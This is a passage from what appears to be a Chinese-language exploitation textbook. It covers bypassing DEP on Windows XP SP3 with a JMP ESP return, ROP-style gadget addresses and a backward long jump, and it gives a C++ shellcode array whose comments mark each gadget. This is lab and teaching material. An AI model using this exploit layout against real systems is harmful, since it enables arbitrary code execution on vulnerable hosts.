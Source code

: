 <img src="images/09/calljmpesp部分搜索结果.png">

本次实验我们选择 0x7DC5C1B4 处的 JMP ESP，然后我在 0x0012FEC4 处放置一个长跳指 令，让程序跳转到 shellcode 的起始位置来执行 shellcode，根据图 12.3.11 中的内存状态，可以 计算出 0x0012FEC4 距离 shellcode 起始位置有 200 个字节，所以跳转指令需要回调 205 个字节 （200+5 字节跳转指令长度）。分析结束，我们开始布置 shellcode，shellcode 布局如图 12.3.13 所示。 

<img src="images/09/windowsxpsp3下关闭dep的shellcode布局.png">


代码如下所示。 
```c++
charshellcode[]= "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 

"……" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90" \
"\x52\xE2\x92\x7C" //MOV EAX,1 RETN 地址 
"\x85\x8B\x1D\x5D" //修正 EBP 
"\x19\x4A\x97\x7C" //增大 ESP 
"\xB4\xC1\xC5\x7D" //jmp esp 
"\x24\xCD\x93\x7C" //关闭 DEP 代码的起始位置 
"\xE9\x33\xFF\xFF" //回跳指令 
"\xFF\x90\x90\x90" 
```
